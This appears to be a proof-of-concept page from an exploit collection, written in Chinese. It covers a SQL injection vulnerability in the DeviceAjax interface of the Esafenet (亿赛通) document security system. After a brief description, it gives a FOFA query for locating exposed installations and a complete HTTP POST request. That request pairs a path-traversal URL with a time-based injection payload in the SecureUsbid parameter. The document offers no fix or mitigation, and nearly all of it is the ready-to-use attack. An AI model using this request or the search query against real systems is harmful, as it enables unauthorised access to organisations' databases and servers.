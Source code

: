 # 亿赛通电子文档安全管理系统DeviceAjax存在SQL注入漏洞

亿某通电子文档安全管理系统` DeviceAjax`接口的`SecureUsbid`参数处对传入的数据没有预编译和充足的校验，导致该接口存在SQL注入漏洞，恶意攻击者可能通过该漏洞获取服务器信息或者直接获取服务器权限

## fofa

```yaml
app="亿赛通-DLP"
```

## poc

```javascript
POST /CDGServer3/js/../DeviceAjax HTTP/1.1
Host: your-ip
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/70.0.3538.77 Safari/537.36
Content-Type: application/x-www-form-urlencoded

command=delSecureUsb&SecureUsbid=-1'waitfor delay '0:0:5'--
```

